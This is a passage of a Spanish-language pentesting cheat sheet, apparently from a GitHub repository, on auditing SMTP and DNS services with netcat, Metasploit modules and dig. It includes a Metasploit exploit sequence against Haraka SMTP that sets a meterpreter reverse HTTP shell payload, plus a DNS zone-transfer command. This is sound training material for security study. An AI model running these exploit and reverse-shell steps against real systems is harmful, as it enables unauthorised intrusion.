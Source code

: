 ```bash
nc -vn <IP> 25
```

<br>

<h3 id="SMTP3">Módulos de Metasploit para SMTP</h3>

```bash
# Módulo de metasploit para enumerar SMTP
auxiliary/scanner/smtp/smtp_enum


# Módulo de metasploit para encontrar versión del SMTP
auxiliary/scanner/smtp/smtp_version


# Módulo para inyección de comandos para SMTP haraka
search type:exploit name:haraka
use 1 (exploit/linux/smtp/haraka)
set SRVPORT 9898
set email_to root@attackdefense.test
set payload linux/x64/meterpreter_reverse_http
set LHOST eth1
exploit
```

Aquí puedes encontrar más información:
* <a href="https://aws.amazon.com/es/what-is/smtp/" target="_blank">What is SMTP</a>
* <a href="https://book.hacktricks.xyz/network-services-pentesting/pentesting-smtp" target="_blank">HackTricks: Pentesting SMTP</a>

<br>

<h2 id="DNS">Puerto 53 - Servicio DNS</h2>

¿Qué es el **servicio DNS**?

| **Servicio DNS** |
|:-----------:|
| *El DNS, o sistema de nombres de dominio, traduce los nombres de dominios aptos para lectura humana (por ejemplo, www.amazon.com) a direcciones IP aptas para lectura por parte de máquinas (por ejemplo, 192.0.2.44).* |

<br>

A continuación, dejo una forma de auditar este servicio:

```bash
# Probando si funciona dig
dig IP@ dominio
Ej: dig 10.10.10.10@ dominio.htb

# Obteniendo correos registrados
dig IP@ dominio mx

# Obteniendo nombres de servidores
dig IP@ dominio ns

# Aplicando ataque de transferencia de zona
dig IP@ dominio axfr
```
